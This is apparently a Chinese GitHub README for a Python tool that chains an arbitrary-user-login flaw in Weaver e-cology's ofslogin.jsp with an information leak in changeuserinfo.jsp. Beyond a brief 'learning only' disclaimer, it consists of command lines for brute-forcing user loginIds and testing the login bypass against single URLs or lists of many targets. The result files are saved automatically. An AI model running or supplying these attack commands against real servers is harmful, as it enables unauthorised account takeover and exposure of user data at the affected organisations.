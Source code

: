 # 泛微ofslogin.jsp任意用户登录&changeuserinfo.jsp信息泄漏漏洞组合利用工具

# 本工具仅供学习测试使用，请勿用于非法用途！！



## 使用

使用前安装依赖

```
pip intall -r requirements.txt
```

1.单个目标爆破loginId并测试ofslogin任意用户登录漏洞

```sh
python3 ecology_ofsLogin_brute.py -u url
```

2.多个目标爆破loginId并测试ofslogin任意用户登录漏洞(为快速测试，ofslogin漏洞仅测试一次，之后进入下一个url)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt
```

3.仅爆破loginId(单个目标)

```sh
python3 ecology_ofsLogin_brute.py -u url --brute --loginId
```

4.仅爆破loginId(多个目标)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt --brute --loginId
```

5.仅爆破ofslogin漏洞(单个目标)

```sh
python3 ecology_ofsLogin_brute.py -u url -l loginid.txt --brute --ofsLogin
```

6.仅爆破ofslogin漏洞(多个目标)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt -l loginid.txt --brute --ofsLogin
```

## 示例

因为是通过mobile模糊查询遍历，会有重复的loginId

![image-20230602161412416](https://github.com/A0WaQ4/Weaver_ofslogin_vul/blob/main/img/image-20230602161412416.png)

爆破成功后会自动生成`loginid.txt`和`result.txt`文件，用于保存爆破出的`loginId`和`ofslogin`漏洞结果	

![image-20230602161418855](https://github.com/A0WaQ4/Weaver_ofslogin_vul/blob/main/img/image-20230602161418855.png)

